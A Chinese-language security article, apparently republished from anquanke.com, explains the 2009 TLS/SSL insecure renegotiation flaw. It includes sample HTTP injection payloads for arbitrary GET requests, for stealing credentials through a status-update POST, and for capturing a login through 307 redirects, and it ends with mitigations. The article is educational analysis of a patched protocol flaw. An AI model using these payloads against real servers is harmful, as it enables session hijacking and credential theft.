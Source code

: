 > 原文链接: https://www.anquanke.com//post/id/82989 


# SSL/TLS协议安全之:不安全的重协商


                                阅读量   
                                **367772**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



**Author: Windcarp**

**稿费：500**

**<br>**

**0x00 背景**

这些年来,SSL/TLS协议的安全性一直是国内外安全研究者研究的重点。在近些年里,针对TLS的漏洞,出现了很多种攻击,如2009年的InSecure Renegotiation(不安全的重协商),2011年的BEAST攻击,2012年的CRIME攻击,以及2013年的Lucky 13,RC4 biases,TIME和BREACH,还有2014年的贵宾犬Poodle攻击。

我们知道,在SSL3.0中引入了支持密码学参数的重协商的特性。当Client或者Server请求重新谈判时,将会有一次新的握手过程,以协商新的安全参数。

这一切看起来都没有问题,但是安全研究者们仍然发现了安全问题,这就是我们今天讨论的主题:Insecure Renegotiation。

<br>

**0x01 重协商安全**

这个安全问题的起因在于,应用层和加密传输层因为分层的设计,几乎没有互动。举个例子来说,重协商可以发生在一次HTTP请求过程的中间,但应用层并不知晓。

此外,还有可能的一种情况是,Web服务器会将重协商之前的接收数据缓存,和重协商之后的数据一起转发给应用服务器。当然重协商之后参数会发生变化,如可能使用了不同的客户端证书,从而最终导致了TLS和Web应用出现mismatch(不协调)。

**攻击流程:**

攻击者拦截受害者到服务器的Handshake请求包

攻击者新建一个TCP连接到服务器(SSL)以发送Payload

接下来,攻击者将第一步拦截下来的包发出去。对于服务器来说,以为受害者发起了重协商请求,所以重新建立了TLS连接,但是却忽视了数据的完整性,将两次数据接在一起,从而造成了有害数据的注入。

示意图如下。这里我们示意其对HTTP GET请求的一次注入过程。

[![](https://p1.ssl.qhimg.com/t0151e12133bb6b67b4.png)](https://p1.ssl.qhimg.com/t0151e12133bb6b67b4.png)

通过重放Client(victim)的重协商请求包,我们发起攻击。利用的前提条件是找到一个触发重协商的点。当然如果有用户主动发起重协商是最好不过的,如果一些网站在某些条件下需要重协商,攻击者也可以加以利用。

<br>

**0x02 攻击的利用:HTTP**

利用不安全的重协商,其攻击的影响主要取决于底层协议和服务器的实现,攻击HTTP是最容易想到的一种利用,这种攻击存在很多变体,Thierry Zoller对HTTP攻击提出了攻击向量与POC。

**任意GET命令执行**

1、这是最简单的攻击,举个例子吧:



```
GET /PATH/TO/RESOURCE.jsp HTTP/1.0
X-Ignore: GET /index.jsp HTTP/1.0
Cookie: JSESSIONID=BASD429ERTLKP09W3P0932K
```

这就是我们前面注入的Payload。

攻击者虽然借用了受害者的身份凭证等机密信息访问了任意GET,但是攻击者不可能获得返回的结果,这种效果和CSRF攻击的效果比较像。

2.凭证盗窃

访问中比较重要的信息就是Cookie、Session等凭证信息,也是攻击者瞄准的重点。Anil在Twitter(这是什么网XD)上提出了这种攻击:



**POST /statuses/update.xml HTTP/1.0**

**Authorization: Basic [attacker's credentials]**

**Content-Type: application/x-www-form-urlencoded**

**Content-Length: [estimated body length]**

```
status=POST /statuses/update.xml HTTP/1.1
Authorization: Basic [victim's credentials]
```

加粗部分是我们的Payload。前一阵很流行用思聪老公的号发微博,这个正好相反。

3.用户重定向

如果攻击者可以发现攻击目标网站有一些用户重定向的存在,那么攻击就更加有意思了,Mikhail对此进行了一些探索:

1 将用户重定向到恶意网站

如果我们发现的重定向点可以将参数回放到返回重定向的Location字段,那么我们可以很容易将用户重定向到恶意网站,不过这种情况并不多见。

2 降级劫持

如果重定向的点是不受HTTPS保护的plaintext web site,那么TCP连接便会暴露,我们即可以通过SSLSTRIP的方式劫持受害者的访问。



```
GET /Some300Resource HTTP/1.1
Connection:close
Host:virtualhost2.com
rnrn
GET /clientsoriginalrequest HTTP 1.1
Host:bank.com
```

3 POST 劫持

如果返回307状态的用户跳转的话,代表着服务器要求浏览器以和本次访问一样的Request访问跳转的内容。<br>我们来看下面的攻击过程:



```
MITM-&gt;Bank.com:443
POST /some307resource HTTP/1.1
X-Ignore: POST /login.jsp HTTP/1.1
Host: Bank.com
Content-Length: 100
username = windcarp&amp;password=secretmsg
rnrn
Client&lt;-Bank.com:443
307 OK HTTP/1.1
Location: http://www.plaintext.com/PostComment
rnrn
Client-&gt;MITM:80-&gt;plaintext.com:80
POST /PostComment HTTP/1.1
Host: plaintext.com
Content-Length: 100
username = windcarp&amp;password=secretmsg
rnrn
```

在这一步,攻击者作为中间人已经可以获得受害者的账户密码。

```
Client&lt;-MITM:80
307 OK HTTP/1.1
Location: https://www.bank.com/login.jsp
rnrn
Client-&gt;Bank.com:443
POST /login.jsp HTTP/1.1
Host: Bank.com
Content-Length: 100
username = windcarp&amp;password=secretmsg
rnrn
```

为了使攻击伪装的更好,我们用一个307跳转跳转回bank登陆,看起来什么都没有发生,但是攻击已经成功。

4 其他

TRACE http请求需要server将request放在response中原样返回。如果这种情况出现我们就可以控制返回包中的一些内容。有趣的是,有些小众的浏览器可以以http格式解析包头中的内容从而造成XSS。

<br>

**0x03 其他协议**

针对SMTP和FTP两种协议也存在着攻击的理论可能。

对于SMTP,Wietse Venema针对Postfix做了研究,但是侥幸的是,因为一些实现的问题,导致这个漏洞并不会被触发。与此同时,SMTP本身安全性过差导致这个漏洞没有很大的价值。

对于FTP,则可以利用这个漏洞达到TELL SERVER DISABLE ENCRYPTION的效果,之后所有的数据就会取消加密,从而造成信息泄露的问题。

<br>

**0x04 结语**

解决不安全的重协商这种攻击在起初时给出了两个思路:

升级到支持安全的重协商

直接关闭重协商的选项

不用分析,两种方法高下立判。当然,在新版本的传输层安全协议中这个问题已经得到了很好的解决,但是漏洞与攻击思路,在我们今天的安全研究中仍可以起到一些借鉴作用。

Reference

[1]MITM attack on delayed TLS-client auth through renegotiation<br>

[http://www.ietf.org/mail-archive/web/tls/current/msg03928.html](http://www.ietf.org/mail-archive/web/tls/current/msg03928.html)<br>

[2]TLS/SSLv3 renegotiation vulnerability explained<br>

[http://www.g-sec.lu/tools.html](http://www.g-sec.lu/tools.html)<br>

[3]TLS renegotiation vulnerability: definitely not a full blown MITM, yet more than just a simple CSRF<br>

[http://www.securegoose.org/2009/11/tls-renegotiation-vulnerability-cve.html](http://www.securegoose.org/2009/11/tls-renegotiation-vulnerability-cve.html)<br>

[4]Generalization of the TLS Renegotiation Flaw Using HTTP 300 Redirection to Effect Cryptographic Downgrade Attacks b284<br>

[http://www.leviathansecurity.com/white-papers/tls-and-ssl-man-in-the-middle-vulnerability/](http://www.leviathansecurity.com/white-papers/tls-and-ssl-man-in-the-middle-vulnerability/)<br>

[5]Google<br>

[http://www.google.com](http://www.google.com/)
